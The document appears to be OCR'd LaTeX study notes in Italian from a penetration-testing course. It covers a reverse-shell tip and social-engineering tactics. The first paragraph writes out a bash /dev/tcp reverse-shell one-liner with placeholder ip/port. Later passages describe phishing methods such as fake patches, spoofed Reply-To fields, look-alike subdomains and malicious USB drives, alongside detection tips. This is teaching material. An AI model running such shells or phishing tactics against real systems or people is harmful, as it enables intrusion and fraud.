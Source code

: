 \documentclass{article}
\begin{document}
\paragraph{Reverse shell}se prendiamo una reverse shell, potrebbe non funzionare con \textsf{/bin/bash -i$>$\&/dev/tcp/ip/port 0$>$\&1}, è possibile mettere \textsf{/bin/bash} in un altro: \textsf{/bin/bash -c "/bin/bash -i $>$\&/dev/tcp/ip/port 0$>$\&1"}
\section{Social engineering}
Tattica molto utilizzata in ambito reale, è la metodologia che offre il rate più alto di successo in un pentest. In generale, è l'arte di manipolare le persone per fargli fare azioni che rivelano o divulgano informazioni. Un esempio, che non riguarda l'hacking, era quello di andare al Mc drive per ottenere ordini senza pagare.\\ Esempi reali: campagna di phishing, iniziata dal governo Nord koreano. L'attacco era incentrato sul creare account fake su social network, in cui venivano pubblicati articoli sulla sicurezza informatica, semplicemente collegandosi al sito dei fake researchers riuscivano ad ottenere una shell sul PC delle vittime (sfruttato uno 0 day di Google Chrome). Un altro modo era quello di condividere un progetto di Visual Studio: erano inclusi gli script di compilazione ed esecuzione, in cui c'erano delle reverse shell. La tecnica è molto attuale e raccoglie e cattura molte persone, anche ricercatori di sicurezza informatica.\\ È necessaria l'autorizzazione per effettuare questo tipo di attività, le tattiche si dividono in due insieme:
\begin{itemize}
\item remote: non c'è contatto fisico con la vittima, ad esempio una chiamata, una e-mail di phishing
\item fisiche: contatto diretto con la vittima
\end{itemize}
Esempi: sito fake, mail fake che è possibile collegare ad un sito web fake. Una delle tattiche più usate è la patch: si dice che il SO non è aggiornato/non sicuro e si chiede di scaricare la patch (che ovviamente è un virus).\\ Nella mail è sia possibile usare la tecnica della patch, sia quella del sito fake o anche l'inclusione di un allegato malevolo. Un altra  consiste nel comprare un dominio, creare un sotto-dominio noto (poste.it) per fregare quelli poco attenti. Come scoprire una fake mail: nei primi mail server da cui passa l'email, il server deve avere lo stesso dominio del mittente, altrimenti l'invio non è autenticato. Per far si che una fake mail riceva risposta ad un indirizzo diverso dal mittente (che sarà un indirizzo vero) è possibile configurare il campo \textit{reply To}: si inserisce la mail su cui si vuole la risposta\footnote{passando sul nome, si vede che l'indirizzo non è quello originale} (ad un occhio poco attento, non fa differenza)\\ Prima delle rubber ducky, si usavano chiavette usb con dentro file malevoli (in estensioni note come word o excel), da un nome "appetibile".
\end{document}
